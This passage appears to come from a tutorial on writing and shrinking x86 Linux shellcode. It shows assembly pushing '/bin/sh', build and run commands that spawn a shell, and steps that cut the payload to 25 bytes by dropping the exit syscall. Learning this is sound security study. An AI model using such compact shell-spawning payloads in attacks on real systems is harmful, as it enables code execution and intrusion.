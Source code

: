 ```asm
    push 0x68732f6e     ;n/sh
    push 0x69622f2f     ;//bi 
```


- Let's compile and try running our shell code:

```sh
$ nasm -f elf32 push_shellv2.asm -o bin/push_shellv2.o
$ ld -m elf_i386 bin/push_shellv2.o -o bin/push_shellv2
$ ./bin/push_shellv2
sh-5.2$ cal
   September 2024
Su Mo Tu We Th Fr Sa
 1  2  3  4  5  6  7
 8  9 10 11 12 13 14
15 16 17 18 19 20 21
22 23 24 25 26 27 28
29 30
```

- Beautiful, this works! But how much bytes have we reduced?
- Well not much, but 2 bytes are way to go

```sh
$ printf `hexconvert ./bin/push_shellv2` | wc -c
36
```

## Removing Crud from the Shell Code

- Next thing to remove is `exit` syscall.
- Reason why you can remove `exit` syscall is that it doesn't have any effect if `execve` syscall is successfully executed.
- The only thing `exit` does is prevent our program from segfaulting when it doesn't execute `execve` syscall.
- Next thing to consider is that, to spawn a shell using `execve` you don't need as much as we have been supplying:

```c
#include <unistd.h>

int main(){
  execve("/bin/sh",NULL,NULL);
}
```

- This too can spawn a shell without any problems.
- Testing `reduced_shell.asm` shell code and it works just fine, in just 25 bytes of size!

```sh
$ printf `hexconvert ./bin/reduced_shell` | wc -c
25
```


